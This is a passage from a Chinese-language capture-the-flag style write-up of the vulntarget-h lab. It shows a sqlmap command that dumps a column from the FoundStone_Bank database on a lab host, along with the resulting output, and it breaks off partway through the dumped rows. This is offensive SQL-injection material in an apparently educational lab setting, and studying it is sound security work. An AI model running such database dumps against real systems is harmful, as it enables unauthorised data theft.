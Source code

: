 > ![Screenshot_2022-06-30_10-06-00.png](../images/vulntarget-h-WriteUp/Screenshot_2022-06-30_10-06-00.png)
> 
> + 使用`sqlmap`查看刚才插入的数据。
> 
> ```bash
> ┌──(kali㉿kali)-[~/Desktop]
> └─$ sqlmap "http://192.168.1.99?user_id=1" -D "FoundStone_Bank" -T "tmp" -C "dir" --dump --flush-session
>         ___
>        __H__                                                                                                                                                
>  ___ ___[']_____ ___ ___  {1.6.6#stable}                                                                                                                    
> |_ -| . [,]     | .'| . |                                                                                                                                   
> |___|_  [(]_|_|_|__,|  _|                                                                                                                                   
>       |_|V...       |_|   https://sqlmap.org                                                                                                                
> 
> [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
> 
> [*] starting @ 10:10:47 /2022-06-30/
> 
> [10:10:47] [INFO] flushing session file
> ...
> Database: FoundStone_Bank
> Table: tmp
> [6 entries]
> +----------------+
> | dir            |
> +----------------+
> | custerr        |
> | edrfgyhujikopl |
> | history        |
> | logs           |